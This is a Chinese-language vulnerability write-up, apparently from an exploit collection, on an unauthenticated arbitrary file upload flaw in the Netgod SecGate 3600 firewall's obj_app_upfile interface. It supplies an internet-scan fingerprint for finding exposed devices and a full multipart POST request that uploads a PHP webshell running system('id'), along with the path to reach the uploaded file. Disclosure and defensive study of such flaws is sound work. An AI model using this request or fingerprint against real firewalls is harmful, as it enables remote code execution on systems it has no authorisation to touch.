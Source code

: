 # 

# 网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞

## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

网神 SecGate 3600 防火墙

## 网络测绘

```
fid="1Lh1LHi6yfkhiO83I59AYg=="
```

## 漏洞复现

登录页面

![image-20230828164646671](images/image-20230828164646671.png)

出现漏洞的文件 webui/modules/object/app.mds

![image-20230828164658709](images/image-20230828164658709.png)

代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传

![image-20230828164714010](images/image-20230828164714010.png)

```
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问 attachements/xxx.php 文件

![image-20230828164734911](images/image-20230828164734911.png)

